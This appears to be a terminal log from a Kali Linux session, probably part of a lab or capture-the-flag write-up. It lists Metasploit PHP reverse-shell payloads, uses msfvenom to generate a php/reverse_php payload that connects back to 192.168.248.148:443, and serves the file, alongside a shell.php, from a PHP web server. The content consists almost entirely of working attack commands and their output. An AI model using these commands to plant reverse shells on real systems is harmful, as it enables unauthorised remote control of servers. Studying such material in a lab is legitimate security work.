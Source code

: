 ```
└─# msfvenom --list payloads | grep php | grep reverse                                    
    cmd/unix/reverse_php_ssl                                           Creates an interactive shell via php, uses SSL
    cmd/windows/powershell/dllinject/reverse_hop_http                  Execute an x86 payload from a command via PowerShell. Tunnel communication over an HTTP or HTTPS hop point. Note that you must first upload data/hop/hop.php to the PHP server you wish to use as a hop.
    cmd/windows/powershell/meterpreter/reverse_hop_http                Execute an x86 payload from a command via PowerShell. Tunnel communication over an HTTP or HTTPS hop point. Note that you must first upload data/hop/hop.php to the PHP server you wish to use as a hop.
    cmd/windows/powershell/vncinject/reverse_hop_http                  Execute an x86 payload from a command via PowerShell. Tunnel communication over an HTTP or HTTPS hop point. Note that you must first upload data/hop/hop.php to the PHP server you wish to use as a hop.
    php/meterpreter/reverse_tcp                                        Run a meterpreter server in PHP. Reverse PHP connect back stager with checks for disabled functions
    php/meterpreter/reverse_tcp_uuid                                   Run a meterpreter server in PHP. Reverse PHP connect back stager with checks for disabled functions
    php/meterpreter_reverse_tcp                                        Connect back to attacker and spawn a Meterpreter server (PHP)
    php/reverse_perl                                                   Creates an interactive shell via perl
    php/reverse_php                                                    Reverse PHP connect back shell with checks for disabled functions
    php/shell_findsock                                                 Spawn a shell on the established connection to the webserver. Unfortunately, this payload can leave conspicuous evil-looking entries in the apache error logs, so it is probably a good idea to use a bind or reverse shell unless firewalls prevent them from working. The issue this payload takes advantage of (CLOEXEC flag not set on sockets) appears to have been patched on the Ubuntu version of Apache and may not work on other Debian-based distributions. Only tested on Apache but it might work on other web servers that leak file descriptors to child processes.
    windows/dllinject/reverse_hop_http                                 Inject a DLL via a reflective loader. Tunnel communication over an HTTP or HTTPS hop point. Note that you must first upload data/hop/hop.php to the PHP server you wish to use as a hop.
    windows/meterpreter/reverse_hop_http                               Inject the Meterpreter server DLL via the Reflective Dll Injection payload (staged). Requires Windows XP SP2 or newer. Tunnel communication over an HTTP or HTTPS hop point. Note that you must first upload data/hop/hop.php to the PHP server you wish to use as a hop.
    windows/vncinject/reverse_hop_http                                 Inject a VNC Dll via a reflective loader (staged). Tunnel communication over an HTTP or HTTPS hop point. Note that you must first upload data/hop/hop.php to the PHP server you wish to use as a hop.
```

```
└─# msfvenom -p php/reverse_php lhost=192.168.248.148 lport=443 -o r443.php               
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3015 bytes
Saved as: r443.php
```

```
┌──(root㉿kali)-[/var/www/html]
└─# ls                                                                     
index.html  index.nginx-debian.html  r443  r443.php  server  shell.php
                                                                                                                                                                                             
┌──(root㉿kali)-[/var/www/html]
└─# php -S 0.0.0.0:80
[Thu Jul 28 08:11:52 2022] PHP 8.1.5 Development Server (http://0.0.0.0:80) started

```
